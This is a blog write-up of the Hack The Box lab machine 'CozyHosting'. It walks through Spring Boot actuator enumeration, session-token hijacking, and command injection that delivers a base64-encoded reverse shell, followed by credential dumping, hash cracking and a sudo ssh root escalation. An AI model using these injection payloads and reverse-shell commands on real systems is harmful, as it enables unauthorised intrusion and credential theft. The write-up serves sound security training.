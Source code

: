 ```yaml
---
layout: post_1
title: "CozyHosting - HTB"
date: 2024-03-02
---
```


# HTB CozyHosting Write Up
![HTB CozyHosting](/assets/2024-03-02-cozyhosting-htb/machine_info.png "CozyHosting")

## Introduction
Cozy Hosting is a cloud server provider company, which offer multiple management tools.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

</details>

## Investigation
First, when we look at the port scan result we can see a usual web server infrastructure that exposes SSH to further management.  
It is using nginx as a reverse proxy and redirect http requests to http://cozyhosting.htb.  
![CozyHosting website](/assets/2024-03-02-cozyhosting-htb/cozyhosting_website.png "CozyHosting website")

The main website contains a login page that doesn't allow registration. We perform some basic SQLi tests but none of them worked/crashed.  
![Login Page](/assets/2024-03-02-cozyhosting-htb/login_page.png "Login Page")

Reverse proxy technologies can forward the request to another server that is running on localhost only.
Sometimes the backend server can return this information on the HTTP Header, which wasn't this case.  
Another way to perform this test is to access an error page, the 404 can be a specially crafted for a better UX than the default nginx error.  
We got the following message  
![Whitelabel Error](/assets/2024-03-02-cozyhosting-htb/whitelabel_error.png "Whitelabal Error")

This doesn't tell which server is in place, but we can search for the error and found out where it came from.  
A lot of results pointed it out to the [Spring Boot Framework][java-spring-boot].  
Now we know what we are dealing with, we can perform enumeration targeting the framework only.  
A [Hacktricks guide on Spring Actuators][spring-actuators] set us in the right direction.
First we launch a directory scan using a [spring-boot.txt list from SecLists][spring-seclists].
```
$ ffuf -w ~/tools/lists/spring-boot.txt:FUZZ -u http://cozyhosting.htb/FUZZ -H 'Host: cozyhosting.htb'

... SNIP ...

actuator                [Status: 200, Size: 634, Words: 1, Lines: 1]
actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1]
actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1]
actuator/sessions       [Status: 200, Size: 145, Words: 1, Lines: 1]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1]
```

In the `actuator/sessions` we can get a session token for the user `kanderson`.
![Kanderson Session](/assets/2024-03-02-cozyhosting-htb/kanderson_session.png "Kanderson Session")
Using this token we can login into the cozyhosting.htb website.

The admin dashboard
![Admin dashboard](/assets/2024-03-02-cozyhosting-htb/admin_dashboard.png "Admin bashboard")

Exploring the dashboard for more information but none was found.

There is a service that enable us to include a host into the automatic patch list.
Now we will the service using placeholder values.
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=user&host=host'
... SNIP ...
< HTTP/1.1 302 
< Server: nginx/1.18.0 (Ubuntu)
< Content-Length: 0
< Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname host: Temporary failure in name resolution
... SNIP ...

```

Then, test for command injection
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=;user&host=host'
... SNIP ...
< Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]           [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command [argument ...]]/bin/bash: line 1: user@host: command not found
... SNIP ...
```

At this moment we know that the server is executing the ssh command which has a basic syntax of `ssh USERNAME@HOSTNAME`.
We can build a reverse shell command.
In the following tests we found that there are a whitespace filter on username.  
To bypass the filter we can use ${IFS} instead of spaced and execute our reverse shell.  
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=;echo${IFS}YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xMTEvNTU1NSAwPiYxCg==${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;&host=host'

```

### User app
The shell was execute as the user `app` on /app dir
```
uid=1001(app) gid=1001(app) groups=1001(app)
```

Users with shell:
```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
app:x:1001:1001::/home/app:/bin/sh
josh:x:1003:1003::/home/josh:/usr/bin/bash

```

The cozyhosting app is /app/cloudhosting-0.0.1.jar
Check running processes to see if any variable was passed as parameter
```
$ ps aux
... SNIP ...
/usr/bin/java -jar cloudhosting-0.0.1.jar
... SNIP ...

```

We can decompile it with jadx and search for password. We found two hardcoded passwords, one for kanderson and another for postgresql.
```
kanderson:
    username=kanderson&password=MRdEQuv6~6P9

postgres:
    spring.datasource.username=postgres
    spring.datasource.password=Vg&nvzAQ7XxR
```

Both of these passwords aren't reused.

In the postgresql database, we can search for more password hashes and test again for password reuse.
```
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

```

Dumping users on cozyhosting
```
postgres=# \c cozyhosting
... SNIP ...
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

```

The admin hash was cracked with hashcat
```
$ hashcat -a 0 -m 3200 admin.hash ~/Downloads/rockyou.txt
... SNIP ...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
... SNIP ...

```

The password was reused for user `josh`.

### User josh
```
uid=1003(josh) gid=1003(josh) groups=1003(josh)
```

Checking for sudo commands:
```
$ sudo -l
... SNIP ...
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```

We can use the [GTFOBins SSH guide][gtfobins-ssh] to gain root access
```
$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)

```

[java-spring-boot]: <https://spring.io/projects/spring-boot> "Spring Boot"
[spring-actuators]: <https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators> "Spring Actuators"
[spring-seclists]: <https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt> "SecLists Spring"
[gtfobins-ssh]: <https://gtfobins.github.io/gtfobins/ssh/> "gtfobins-ssh"
